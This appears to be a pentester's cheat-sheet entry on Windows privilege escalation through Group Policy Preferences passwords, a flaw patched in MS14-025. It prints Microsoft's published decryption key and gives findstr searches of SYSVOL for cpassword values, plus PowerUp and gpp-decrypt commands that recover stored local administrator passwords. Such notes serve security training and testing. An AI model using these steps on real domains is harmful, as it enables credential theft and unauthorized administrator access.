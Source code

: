 ```yaml
---
title: group policy preferences
category: win privesc
order: 1
---
```

---
[WPE-07 - Group Policy Preferences](https://pentestlab.blog/2017/03/20/group-policy-preferences/)

 Prior to patch MS14-025, there was a horrible storage of local administrator password, in a readable SMB share, SYSVOL, if the local administrator account was deployed via group policy.

 the keys are encripted but microsoft published the key
 ```
4e 99 06 e8  fc b6 6c c9  fa f4 93 10  62 0f fe e8
f4 96 e8 06  cc 05 79 90  20 9b 09 a4  33 b6 6c 1b
```

##  1 find Groups.xml
ex:
```
C:\ProgramData\Microsoft\Group Policy\History\????\Machine\Preferences\Groups\Groups.xml
\\????\SYSVOL\\Policies\????\MACHINE\Preferences\Groups\Groups.xml
```
or:
```
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

##  2 decrypt

#### | PowerUp.ps1
```
Get-CachedGPPPassword //For locally stored GP Files
Get-GPPPassword //For GP Files stored in the DC
```
#### | winpeas
winpeas checks for it

#### | gpp-decrypt
```
cat groups.XML
...
cpassword="edbiausdhiuhasd1289471890234nias098124n98"
...
gpp-decrypt  edbiausdhiuhasd1289471890234nias098124n98
```
